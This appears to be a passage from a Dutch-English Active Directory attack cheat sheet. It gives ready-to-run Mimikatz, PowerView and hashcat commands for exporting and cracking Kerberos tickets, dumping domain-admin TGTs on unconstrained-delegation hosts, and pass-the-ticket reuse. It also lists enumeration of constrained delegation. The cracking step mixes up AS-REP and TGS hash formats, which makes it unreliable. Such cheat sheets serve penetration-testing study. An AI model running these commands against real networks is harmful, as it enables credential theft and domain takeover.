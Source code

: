 #### Export ticket to disk for offline cracking
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

#### Request TGS hash for offline cracking hashcat
```
Get-DomainUser -Identity <username> | Get-DomainSPNTicket | select -ExpandProperty Hash
```

#### Crack the hash with hashcat
Edit the hash by inserting '23' after the $krb5asrep$, so $krb5asrep$23$.......
```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

## Unconstrained Delegation
Unconstrained delegation is een privilege welke kan worden toegekent aan gebruikers of computers, dit gebeurt bijna altijd bij computers met services zoals ISS en MSSQL. Deze services hebben meestal toegang nodig tot een backend database namens de geverifieerde gebruiker. Wanneer een gebruiker zich verifieert op een computer waarop onbeperkt Kerberos-delegatierecht is ingeschakeld, wordt het geverifieerde TGT-ticket van de gebruiker opgeslagen in het geheugen van die computer. Als je administrator toegang hebt tot deze server, is het mogelijk om alle TGT tickets uit het geheugen te dumpen.

#### Discover domain computers which have unconstrained delegation
Domain Controllers always show up, ignore them
```
 . .\PowerView_dev.ps1
Get-Netcomputer -UnConstrained
Get-Netcomputer -UnConstrained | select samaccountname
```

#### Check if any DA tokens are available on the unconstrained machine
Wait for a domain admin to login while checking for tokens
```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

#### Export the TGT ticket
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

#### Reuse the TGT ticket
```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

## Constrained Delegation
Als je over een account of computer beschikt met de constrained delegation privilege is het mogelijk om je voor te doen als elk andere gebruiker en jezelf te authentiseren naar een service waar de gebruiker mag delegeren.
### Enumerate
#### Enumerate users with contrained delegation enabled
```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```
